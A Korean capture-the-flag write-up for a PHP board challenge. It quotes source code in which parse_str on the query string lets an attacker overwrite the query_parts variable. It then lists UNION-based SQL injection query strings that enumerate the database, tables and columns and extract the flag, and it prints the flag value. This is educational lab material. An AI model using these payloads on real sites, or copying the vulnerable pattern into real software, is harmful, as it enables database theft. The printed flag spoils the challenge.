







# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

게시판 같은 페이지이다.



소스를 까보면 where_clause라는 변수에 데이터를 입력할 수 있고, 이는 SQLi로 이어질 수 있다고 본다.

```php
... 생략 ...
$result = mysql_query("select * from board where {$where_clause} order by idx desc");
... 생략 ...
```

where_clause에 데이터를 넣기 위해서는 foreach문에서 query_parts라는 변수에 데이터가 존재할 경우, query_parts가 where_caluse로 대입된다. 하지만, col변수에 데이터가 있다면 query_parts에 데이터를 원하는대로 조작하기 힘들어보인다.

이때 col변수에 데이터가 없기 위해서는 preg_match의 패턴에 안걸리면 된다. 즉, 맨 처음 문자열이 subject, content, writer가 아닌 데이터가 들어가 있어야 한다.

```php
... 생략 ...
foreach($cols as $col) { 
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : ''; 
    if($col) { 
        $query_parts = $col . " like '%" . $keyword . "%'"; 
    } 

    if($query_parts) { 
        $where_clause .= $query_parts; 
        $where_clause .= ' '; 
        $where_clause .= $operator; 
        $where_clause .= ' '; 
        $query_parts = ''; 
    } 
} 

if(!$where_clause) { 
    $where_clause = "content like '%{$keyword}%'"; 
}
... 생략 ...
```

이제 cols 변수에 데이터가 어떻게 들어가는 지 보면, search_cols 변수에 "|" 을 기준으로 스플릿하여 배열형태로 저장된다.

```php
if(!isset($search_cols)) { 
    $search_cols = 'subject|content'; 
} 

$cols = explode('|',$search_cols); 
```

search_cols와 query_parts는 parse_str과 _SERVER['QUERY_STRING'] 변수를 통해 원하는 데이터를 넣을 수 있다.

이때, $_SERVER['QUERY_STRING']에 /session/isUD라는 문자열이 존재하면 exit으로 빠진다.

```php
if(preg_match('/session/isUD',$_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

parse_str($_SERVER['QUERY_STRING']); 
getOperator($operator); 
$keyword = addslashes($keyword);
$where_clause = ''; 
```

QUERY_STRING은 query string이란다.........

> [PHP $_SERVER](https://www.php.net/manual/en/reserved.variables.server.php)

query string이란, HTTP URL 구성 요소 중 searchpart에 해당하는 부분이다.

> [Query string](https://datatracker.ietf.org/doc/html/rfc1738#section-3.3)

다음으로, parse_str이란 함수가 나온다. parse_str은 인자로 받아들인 문자열 중 쿼리 구문일 때, 변수를 php변수로 활용할 수 있다는 것이다.

> [PHP parse_str](https://www.php.net/manual/en/function.parse-str.php)

```php
parse_str($_SERVER['QUERY_STRING']); 
```

이제 search_cols를 "|"로 분리하고, 분리된 문자열 중 subject, content, writer가 아닌 데이터여야 하고 query_parts라는 변수를 추가적으로 넘겨주어 parse_str함수에 의해서 변수화 시키고 해당 데이터를 where_clause에 넘겨 줄 수 있다.

우선 컬럼 수는 4개임을 알 수 있다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,3,4--



DB명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,schema_name,4 from Information_schema.schemata--



테이블명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,table_name,4 from Information_schema.tables where table_schema='dmbs335'--



컬럼 명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,column_name,4 from Information_schema.columns where table_name='Th1s_1s_Flag_tbl'--



FLAG를 획득한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,f1ag,4 from Th1s_1s_Flag_tbl--



개인적으로 전의 문제들 중 BlindSQLi가 기술적으로 더 어려웠다.


# **FLAG**

**4185ecacbc0ef01ab0e8518ad666021b26065557**